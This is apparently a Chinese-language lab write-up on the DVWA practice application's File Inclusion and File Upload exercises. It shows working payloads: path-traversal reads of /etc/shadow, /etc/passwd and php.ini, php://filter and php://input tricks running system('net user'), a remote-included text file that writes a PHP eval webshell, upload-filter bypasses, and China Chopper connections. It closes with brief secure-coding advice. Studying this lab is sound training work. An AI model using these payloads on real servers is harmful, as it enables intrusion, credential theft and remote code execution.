DVWA_(FILE inclusion&uploads)
File Inclusion
前言
allow_url_include=On
allow_url_open=On(远程包含)
服务器会包含相应的文件，并将结果返回。需要特别说明的是，服务器包含文件时，不管文件后缀是否是php，都会尝试当做php文件执行，如果文件内容确为php，则会正常执行并返回结果，如果不是，则会原封不动地打印文件内容，所以文件包含漏洞常常会导致任意文件读取与任意命令执行。
LOW
本地包含
1 | <?php |
未对传入的page文件进行任何的过滤
本地包含:
构造http://127.0.0.1/zlzhidao/vulnerabilities/fi/?page=\etc\shadow判断是否为linux系统

报错显示为windows系统，使用绝对路径访问php.ini文件http://127.0.0.1/zlzhidao/vulnerabilities/fi/?page=F:\phpstudy\PHPTutorial\WWW\zlzhidao\php.ini

相对路径访问php.inihttp://127.0.0.1/zlzhidao/vulnerabilities/fi/?page=../../../zlzhidao/php.ini

远程包含
当服务器的php配置中，选项allow_url_fopen与allow_url_include为开启状态时，服务器会允许包含远程服务器上的文件，如果对文件来源没有检查的话，就容易导致任意远程代码执行。
在远程服务器192.168.43.195上传一个phpinfo.txt文件，会以PHP解析在服务端打开。
http://127.0.0.1/zlzhidao/vulnerabilities/fi/?page=http://127.0.0.1/phpinfo.txt
打开百度链接http://127.0.0.1/zlzhidao/vulnerabilities/fi/?page=http://www.baidu.com

MEDIUM
1 | <php |
服务端对http:// ”、”https://”、 ” ../”、”..\”替换为空字符，即删除。采用双写绕过或大小写混写就可以了。
High
1 | <php |
可以看到源码对文件开头做了限制，必须时FILE开头
使用系统自带file://协议打开文件
http://127.0.0.1/zlzhidao/vulnerabilities/fi/?page=file://F:\phpstudy\PHPTutorial\WWW\zlzhidao\php.ini

php://filter 伪协议使用
php://filter
读取文件并以base64编码返回
利用条件:无
常用payload
php://filter/read=convert.base64-encode/resource=index.php

File Inlcusion
1、./是当前目录
2、../是父级目录
3、/是根目录
LOW
通过代码可看出未对文件上传做任何限制，直接上传带有一句话木马的PHP文件

MEDIUM

发现源代码对文件上传的后缀名做了限制
直接上传带有一句话木马的png图片

扯到了菜刀原理
上传成功，使用菜刀连接。显示连接失败
中国菜刀的原理是向上传文件发送包含123参数的post请求，通过控制123参数来执行不同的命令，而这里服务器将木马文件解析成了图片文件，因此向其发送post请求时，服务器只会返回这个“图片”文件，并不会执行相应命令。//
解决方案(分析源码)
啰嗦这么多原因就是
由于服务器解析成图片无法执行post命令
使用burpsuite抓包改，上传*。png文件，将后缀名改位php上传
//原理分析，在加载网页时候，php脚本已经加载完在浏览器中，当点击UPLOAD浏览器执行PHP脚本判断文件类型，但是burpsuite截取的是发送的http请求。所以这里burpsuite抓包显示已经对文件类型做出了判断为png。


HIGH
high代码通过if条件语句判断文件后缀名+grtmagesize()限制上传文件内容的文件头必须带有图片后缀名才能上传成功
通过windows自带的copy命令将php文件与png图片合成
使用burpsuite无法修改后缀为php解决方案
通过burpsuite截取改后缀名时无法成功，在服务端直接对文件后缀名判断。而medium只是对content-type做出了判断。


解决方案
使用HIGH下的COMMAND Injection|dir得出文件路径,结合uploads 时的路径提示
F:\phpstudy\PHPTutorial\WWW\zlzhidao\vulnerabilities\hackable\uploads\new1.png
修改后缀名命令
127.0.0.1| |rename ..\\..\\hackable\\uploads\\new1.png new1.php

修改成功 使用菜刀连接


PHP文件包含利用
读取敏感文件
访问url: http://www.123.com/index.php?page=/etc/passwd，存在若有相应权限读出文件内容。反之得出：open_basedir restriction in effect警告
常见敏感信息如下：

远程包含shell
条件：allow_url_fopen选项是激活的
- 远程木马存在地址
http://www.example.com/echo.txt
文件内容<?php fputs(fopen("shell.php","w"),"<?php eval($_POST['mima']);?>")?>
- 执行url：
http://www.123.com/index.php?page=http://www.example.com/echo.txt
写入一句话木马<?php eval($_POST['mima']);?>
本地包含配合文件上传
上传文件后，使用文件包含漏洞访问。这里就不赘述了。
PHP封装协议
PHP内置协议如图，与fopen(),copy(),file_exists(),filesize()等文件系统函数所提供功能相似

封装协议读取PHP文件
http://www.123.com/index.php?page=php://filter/read=convert.base64-encode/resource=config.php
上文试题也有详细操作，就不赘述了。写入PHP文件
使用php://input
条件：allow_url_include()为On
URL:http://192.168.43.195/DVWA/vulnerabilities/fi/?page=php://input<?php system('net user');?>

使用写入一句话木马也是可以 得使用fputs和 fopen函数
包含Apache日志文件
访问http://www.123.com/<?php phpinfo() ?> 使用burpsuite HTTP编辑器发送，就不会被浏览器转义。已知日志路径就能访问一句话木马了。
截断包含
在图片路径后加上%00 会以PHP方式解析
条件：magic_qutotes_gpc = Off
为ON 转义 '、"、\、NULL
安全编写包含
造成包含漏洞原因是被包含页面可控
- 参数可被控制
- 路径限制，禁止目录跳转字符”../“
- 包含文件验证：验证是否是白名单中的参数
- 尽量不使用动态包含，写死网页 include(“head.php”)